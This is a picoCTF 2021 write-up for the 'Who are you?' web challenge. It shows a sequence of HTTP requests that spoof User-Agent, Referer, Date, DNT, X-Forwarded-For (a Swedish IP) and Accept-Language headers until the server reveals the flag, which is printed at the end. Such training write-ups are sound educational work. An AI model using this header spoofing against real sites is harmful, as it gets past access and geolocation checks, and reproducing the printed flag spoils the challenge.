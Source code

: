 # Who are you?
Description: Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn

Category: Web Exploitation, 100 points

Original Event: picoCTF 2021

## Solution
When opening the site, we are greeted with the message: "Only people who use the official PicoBrowser are allowed on this site!", and a gif of the kazoo kid (throwback!). My first thought was to edit the UserAgent field of the http request in order to appear to be using the "PicoBrowser". 
I used BurpSuite to re-forward the original connection request, this time with the UserAgent changed to "PicoBrowser":
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
Cache-Control: max-age=1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
This worked, and the page changed, this time displaying the message: "I don't trust users visiting from another site.". This seriously stumped me as I looked in my existing HTTP request for any sort of referral field, and then decided to consult the holy grail, [Mozilla's http headers list](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers). Here I found exactly what I was looking for, the ["Referer"](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) header.

Putting this into the request and setting the value to be the host, the site changed again.
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
Cache-Control: max-age=1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Referer: mercury.picoctf.net:39114
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
This time, the site states: "Sorry, this site only worked in 2018." 
Adding the "Date" header to our request with a value of 2018 allows us to proceed, now displaying "I don't trust users who can be tracked."
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
Date: 2018
Cache-Control: max-age=1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Referer: mercury.picoctf.net:39114
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
This pointed me towards the now deprecated "DNT" header, which tells the server whether or not to track the user. 
Adding the DNT header and setting it to 1 now shows the message: "This website is only for people from Sweden."
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
Date: 2018
DNT: 1
Cache-Control: max-age=1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Referer: mercury.picoctf.net:39114
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
This one was trickier, as I had to find a Swedish IP address to use with the ["X-Forwarded-For"](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) header.
After looking around, I found a ["site"](https://db-ip.com/all/199.247.35) with a large list of Google-owned IP addresses originating in Sweden. Choosing one of these and adding it to my request yielded the message: "You're in Sweden but you don't speak Swedish?"
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
Date: 2018
DNT: 1
X-Forwarded-For: 199.247.35.2
Cache-Control: max-age=1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Referer: mercury.picoctf.net:39114
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
After adding Swedish (sv) to the Accept-Language header, we are finally greeted with the flag.
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
Date: 2018
DNT: 1
X-Forwarded-For: 199.247.35.2
Cache-Control: max-age=1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Referer: mercury.picoctf.net:39114
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,sv,en;q=0.9
```

### Flag:picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_20ace0e4}
